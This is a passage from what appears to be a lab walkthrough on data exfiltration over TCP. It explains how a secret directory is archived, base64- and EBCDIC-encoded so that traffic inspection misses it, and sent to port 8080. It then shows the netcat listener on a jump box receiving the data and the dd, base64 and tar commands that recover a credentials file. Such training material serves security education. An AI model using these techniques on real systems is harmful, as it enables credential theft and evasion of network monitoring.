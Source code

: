 Let's break down the previous command and explain it:

1. We used the tar command to create an archive file with the zcf arguments of the content of the secret directory.
2. The z is for using gzip to compress the selected folder, the c is for creating a new archive, and the f is for using an archive file.
3. We then passed the created tar file to the base64 command for converting it to base64 representation.
4. Then, we passed the result of the base64 command to create and copy a backup file with the dd command using EBCDIC encoding data.
5. Finally, we redirect the dd command's output to transfer it using the TCP socket on the specified IP and port, which in this case, port 8080.

Note that we used the Base64 and EBCDIC encoding to protect the data  during the exfiltration. If someone inspects the traffic, it would be in a non-human readable format and wouldn't reveal the transmitted file  type. 

Once we hit enter, we should receive the encoded data in the /tmp/ directory.

- **Checking the received data on the JumpBox** 

```shell
thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data
Listening on [0.0.0.0] (family 0, port 8080)
Connection from 192.168.0.101 received!

thm@jump-box$ ls -l /tmp/
-rw-r--r-- 1 root root       240 Apr  8 11:37 task4-creds.data
	    
```

On the JumpBox, we need to convert the received data back to its original status. We will be using the dd tool to convert it back. 

- **Restoring the tar file**

```shell
thm@jump-box$ cd /tmp/
thm@jump-box:/tmp/$ dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar
0+1 records in
0+1 records out
260 bytes transferred in 0.000321 secs (810192 bytes/sec)
	    
```

The following is the explanation of the previous command:

1. We used the dd command to convert the received file to ASCII representation. We used the task4-creds.data as input to the dd command. 
2. The output of the dd command will be passed to the base64 to decode it using the -d argument.
3. Finally, we save the output in the task4-creds.tar file.

Next, we need to use the tar command to unarchive the task4-creds.tar file and check the content as follows,

- **Uncompressing the tar file**

```shell
thm@jump-box$ tar xvf task4-creds.tar
task4/ 
task4/creds.txt
	    
```
